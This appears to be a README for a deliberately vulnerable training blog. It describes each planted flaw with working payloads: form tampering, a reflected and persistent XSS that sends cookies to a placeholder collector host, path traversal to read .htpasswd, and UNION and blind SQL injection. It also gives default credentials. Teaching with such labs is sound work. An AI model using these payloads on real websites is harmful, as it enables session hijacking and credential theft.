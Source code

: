 # Fake blog to hack for newbie training

## Overview

This is a fake blog that has many kinds of web vulnerabilities. This is usefull because it can be use to teach to newbies that web vulnerabilities exist and can be very damaging.

## Warning

It can be installed on a typical LAMP installation. You MUST NOT installed it on a production server or any server or network that should not be compromised. REMEMBER that the vulnerabilities on this application are REAL VULNERABILITIES. I am NOT RESPONSIBLE for what you do with it. 

## How to install it

The `blog_hack/` directory or the content of it have to be downloaded to your Apache `www` directory. Often, it is located to `/var/www/` on GNU/Linux system. 

You should edit the `blog_hack/init.php` file with your MySQL information. The default password of the admin user is `salut123`.

The `blog_hack/admin` directory has an `.htpasswd` file. The `admin` user password is `admin`. If you want to modify it, you must encrypt it if you are on GNU/Linux because Apache force to do so.

## How to use it

Here is a list of all vulnerabilities on this blog. If you don't want to know them because you want to discover them by yourself, you should stop reading this right now and begin to play with the application. Remember, you're not supposed to know the default credentials mentionned above.

### Form validation vulnerability

First of all, there is a form validation vulnerability in the subscription form. What you have to do is to submit the first form with "Level 1" account and then you arrive on a second page which is a hidden form. If you check the source, you'll see that there is a `type` field and a `total` field. So if you check in the first form for the values, you'll see that the value for the level 2 is 2. But here's the trick, you have to modify the `type` field in the second form with a value of 3 instead of 1 or 2 and you must not modify the `total` field because, in the validation, only the `total` field is validated but not the `type` field but what's inserted in the DB is the `type` field. Then, you submit the hidden form. You normally should be able to comment on blog article.

### XSS vulnerability

A XSS (means Cross-site scripting) vulnerability is a vulnerability that permits the user to inject some Javascript in a web page. Mainly, if you discover a XSS in a web site, you're able to steal user cookies, use them to connect to the web site as them and having access of all information that the user has access.

#### Non-persistent XSS

In the blog members list, you can search for members on the web site. If you enter quotes in the search field, you can end the html input tag and begin a script tag.

In the root directory of this repo, there is a `cookies.php` file and a `cookies.html` file. You have to download these 2 files to the web server of your choice. You can choose the same web server that you put the `blog_hack` site. Basically, what the `cookies.php` file does is to take a GET request with a parameter named `c` and writes it to the `cookies.html` file. You have to be sure that the `cookies.php` script has rights to write to the `cookies.html` file. I don't know the exact right that these files need to have so you can do a `chmod 777 cookies.php cookies.html` to be sure. You also can do that via FTP if you want.

So, all is in place. Let's the hacking begin! The goal of the manipulations here is to create an URL to send to a user that will redirect him to the `cookies.php` file with his cookie in the `c` parameter. Here is what you have to enter in the search field: `"> <script>document.location = "http://yourdomain/your/path/cookies.php?c=" %2b document.cookie;</script>`. The `%2b` is simply url encoded version of the `+` character; if we don't url encode it, it will be replaced by a space by your web browser if you enter it in the URL bar instead of the search field. If you enter it in your browser, you'll send your own cookies to you. Normally, the goal is to send an URL that contains this search to a user but this is not covered in this demonstration.

#### Persistent XSS

A persistent XSS is exactly the same as a non-persistent XSS except that the persistent XSS is inserted in a DB and all user that arrive on a certain page will be victim of the XSS. So, there is a persitent XSS in the comment section of each blog entry. The exploit technique is absolutly the same except you don't have to send a URL to a user and just wait that someone came to the page.

### File inclusion vulnerability

File inclusion vulnerabilities are vulnerabilities that can able an attacker to include a file not supposed to be include in the page. A classic example of this vulnerablity is a web site that take a parameter `page` in the URL to show the good page to the client. The URL usually looks like `http://mywebsite.com/index.php?page=home.php`. So, if the developper didn't secure his function, it is possible to include many files often on the server itself. More rarely, you could be able to include an external file and then execute the content of this file by PHP so doing what you want on the server.

So, what do we have here? There is a `page` parameter. If you try to write anyting else in this parameter, you'll see that the `.php` is added at the end of the include function. It's not very convenient. Also, you can notice that you're not able to include external files because the include file begin with `./include/`. But, if we look for vulnerabilities in the include function of PHP, we'll find that `include` had a vulnerability, in old version of PHP, that permitted to skip the end of the include string by inserting a NULL byte in the string because PHP stopped reading the string if it read a NULL byte. 

So now, we know we can possibly\* include any files on the web server if the user that executes PHP has the right to read these. Of course, if the system administrators are very dump, we could read the `/etc/shadow` and `/etc/passwd` files. But let's suppose they're not for the case here. If you do some tests on the website, you may have discovered there is a `admin/` URL with a username and a password. So, to discover what are the credentials, we use the file inclusion vulnerability we discovered and we do an URL like this: `index.php?page=../admin/.htpasswd`. And boom, we now have a hashed version of the admin user password. You can now use any tool that crack hashes and will discover that the password is `admin`.

To explain the URL, the first two dots (`../`) are there because if you remember the include string was begining with `./include/` so we need to come back because we want to go in the `./admin/` directory and not the `./include/admin/` directory. Finally, the `.htpasswd` file is the standard file for Apache HTTP password configuration (Htaccess).

\* In this case, this vulnerability is simulated. This is the only simulated vulnerability because this vulnerability has already existed but is not anymore available.

### SQL injection

The goal of this vulnerability is to inject SQL statement into SQL queries that are not intended to. To be able to exploit SQL injection, you have to know some basis of SQL. A classic SQL injection is when you have a login form that don't escape character in the username. Let's think how the SQL query might be build to verify if the user and the password match: `"SELECT * FROM users WHERE login = '".$_POST['login']."' AND password='".md5($_POST['password'])."'"`(in PHP). So, to bypass this verification, you can see that the login field is not verified against injection so you can inject any SQL fragment you want. Then, one injection that could bypass this verification could be `admin' #`. The single quote after the username is because we have to clause the SQL string opened in the query. Finally, we have a hashtag character because we don't want that SQL verifies the password we entered so the hashtag is just a comment for the rest of the line.

#### Classical SQL injection in the fake blog

In the blog, there is two SQL injection. The first one is a more classical injection. If you go in the members list page and click on one member, you'll have an URL that looks like that: `index.php?page=profile&id=1`. So, if you play a little with the id parameter, you'll see that it can generate SQL error if you let a number at first character. The trick to exploit this SQL injection is to put a number that don't exist as an ID for a user in the database. With guessing, you'll arrive with that string: `-1 UNION SELECT id,login, password FROM user`. You could have found the name of the tables by guessing because they are very simple and usual or you could have found these by querying the MySQL catalog (see at the end of this text).

#### Blind SQL injection

The second one SQL injection in the blog is called a "Blind SQL injection". The qualifier "blind" simply means that you can't directly see what you want to see; you have to find a clue about what you have like a blind person do with a stick. More formally, a blind SQL injection is when you can have a boolean clue about what is executed in the SQL query. For instance, if you have a page saying that your answer is wrong and with a good SQL injection, the page says that your answer is good then you have a blind SQL injection.

In the blog, you maybe have notice there is a message in the bottom of each that says: "The browser you are currently using is not supported by our blog. This may cause some bugs. This message will disappear once you have a good browser.". In web hacking, it is important to know how HTTP works. With a message like that, normally, you'll think about HTTP user-agent and you're right. You can also guess if your browser provide a good HTTP user-agent, the message will disappear as said in the message. So, if you tried to inject some data like quote (') in the user-agent, you'll see SQL errors.

The goal here is to inject SQL fragment and see if the message disappear or not. Usually, you try to find how long the string in the database is first. Then, you try to brute-force each by each character of the string by a set of characters you choose. After that, you have all you need. For the first step, you can use the `LENGTH(mycolumn)` SQL function and compare it with a range of number until it return true. For the second step, you can use the `SUBSTRING(mycolumn, i, 1)` SQL function where `i` is the index of the character in the string to brute-force and also compare it with a set of characters you choose. You can see all that in the "Exploit\_Blog\_hack.php" file where the attack is made to find the password of the admin user.

## Others

### MySQL catalog

### Useful tools in web haking

### Instinct

### Useful links
